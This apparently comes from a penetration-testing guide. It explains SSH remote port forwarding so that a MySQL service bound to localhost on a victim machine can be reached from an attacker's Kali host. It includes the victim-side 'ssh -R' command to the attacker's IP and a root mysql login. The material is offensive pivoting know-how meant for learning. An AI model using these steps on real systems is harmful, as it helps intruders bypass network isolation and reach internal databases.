 In some instances, a root process may be bound to an internal port, through which it communicates.

If for some reason, an exploit cannot run locally on the target machine, the port can be forwarded using SSH to your local machine:

```bash - kali
ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine>
```

The exploit code can now be run on your local machine at whichever port you chose.

First, let's discover the port mysql is running on:

```bash - kali
ss -antp
```

OR

```bash - kali
netstat -nl
```

`tcp 0 127.0.0.1:3306 0.0.0.0:* LISTEN`

It is running on its default port, 3306. Notice is bound to local address, meaning we cannot access it externally.

In Kali:

```bash - kali
service ssh start
```

In Victim:
```bash - victim
ssh -R 4444:127.0.0.1:3306 kali@192.168.205.132
```

In Kali:
```bash - kali
mysql -u root -h 127.0.0.1 -P 4444
```
